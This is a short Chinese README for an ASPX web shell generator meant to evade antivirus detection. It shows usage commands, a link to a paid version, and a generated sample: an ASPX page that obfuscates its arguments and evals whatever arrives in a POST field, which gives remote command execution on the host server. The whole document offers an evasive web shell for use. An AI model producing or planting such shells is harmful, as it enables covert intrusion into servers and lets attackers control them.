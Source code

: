 # 2019.8.14

已知免杀已失效，获取星球内部版请戳

https://yzddmr6.tk/2019/08/13/webshell-venom-notice/

## 使用方法

`python3 aspx_venom.py`

保存:

`python3 aspx_venom.py >  test.aspx`

生成样例:
```
<%@ Page Language="Jscript" Debug=true%>
<%
var UdIw='hVYFCrBEjfzQsUkdgOReSAKXntawHGiWPvTpqJxmLZbylcuMNDIo';
var YJxe=Request.Form("yzddmr6");
var zIUt=UdIw(13)+UdIw(24)+UdIw(12)+UdIw(21)+UdIw(3)+UdIw(7);
eval(YJxe,zIUt);
%>
```
